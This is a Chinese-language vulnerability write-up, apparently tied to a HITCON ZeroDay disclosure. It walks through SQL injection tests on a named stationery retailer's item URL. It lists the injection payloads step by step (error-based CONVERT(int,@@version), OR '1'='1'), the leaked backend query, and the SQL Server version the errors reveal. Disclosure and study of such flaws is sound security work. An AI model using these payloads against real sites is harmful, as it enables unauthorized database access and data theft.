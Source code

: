 ```yaml
---
title: SQL Injection Stationer Success
description: SQL Injection Stationer Success
last_update:
  date: "2025-08-31T08:00:00+08:00"
---
```


## 前言

本文是 https://zeroday.hitcon.org/vulnerability/ZD-2025-01101 的延伸

- 目標: `https://xl-stationer.com.tw/item/182藍色筆桿20mm推進式工程筆0021`
- 可控制 item 後面的 path 達到 SQLi

## 測試流程

1. `https://xl-stationer.com.tw/item/'`

[Microsoft][ODBC SQL Server Driver][SQL Server]接近 '1' 之處的語法不正確。

```sql
select I.partName,I.Id,I.Name as ItemName,C.Id as ClsId,C.Name as ClsName,CU.Id as ClsUpId,CU.Name as ClsUpName,O.Id as RoomId,O.Name as RoomName,I.ItemColorId,I.MinAmount,I.multipleLimit from Item I Left join Cls C on I.ClsId=C.Id Left join ClsUp CU on C.ClsUpId=CU.Id Left join OnlineRoom O on CU.OnlineRoomId=O.Id WHERE Replace(Replace(Replace(Replace(Replace(I.Name,' ',''),'.',''),'\',''),'/',''),'#','')=''' and I.online=1 and I.State in ('1','2')
```

2. `'%20AND%201%20=%20CONVERT(int,@@version)--`

[Microsoft][ODBC SQL Server Driver][SQL Server]接近 'AND1' 之處的語法不正確。

```sql
select I.partName,I.Id,I.Name as ItemName,C.Id as ClsId,C.Name as ClsName,CU.Id as ClsUpId,CU.Name as ClsUpName,O.Id as RoomId,O.Name as RoomName,I.ItemColorId,I.MinAmount,I.multipleLimit from Item I Left join Cls C on I.ClsId=C.Id Left join ClsUp CU on C.ClsUpId=CU.Id Left join OnlineRoom O on CU.OnlineRoomId=O.Id WHERE Replace(Replace(Replace(Replace(Replace(I.Name,' ',''),'.',''),'\',''),'/',''),'#','')=''AND1=CONVERT(int,@@version)--' and I.online=1 and I.State in ('1','2')
```

看起來 `%20` 沒有被轉成空白(?)

3. `'%20OR%20'1'%20=%20'1`

有成功顯示第一筆商品的資料，所以空白應該是可以的(?)

4. `'%20OR%20'1'%20=%20CONVERT(int,@@version)%20AND%20'1'%20=%20'1`

[Microsoft][ODBC SQL Server Driver][SQL Server]將 nvarchar 值 'Microsoft SQL Server 2012 (SP4) (KB4018073) - 11.0.7001.0 (X64) Aug 15 2017 10:23:29 Copyright (c) Microsoft Corporation Standard Edition (64-bit) on Windows NT 6.3 (Build 17763: ) (Hypervisor) ' 轉換成資料類型 int 時，轉換失敗。

```sql
select I.partName,I.Id,I.Name as ItemName,C.Id as ClsId,C.Name as ClsName,CU.Id as ClsUpId,CU.Name as ClsUpName,O.Id as RoomId,O.Name as RoomName,I.ItemColorId,I.MinAmount,I.multipleLimit from Item I Left join Cls C on I.ClsId=C.Id Left join ClsUp CU on C.ClsUpId=CU.Id Left join OnlineRoom O on CU.OnlineRoomId=O.Id WHERE Replace(Replace(Replace(Replace(Replace(I.Name,' ',''),'.',''),'\',''),'/',''),'#','')=''OR'1'=CONVERT(int,@@version)AND'1'='1' and I.online=1 and I.State in ('1','2')
```
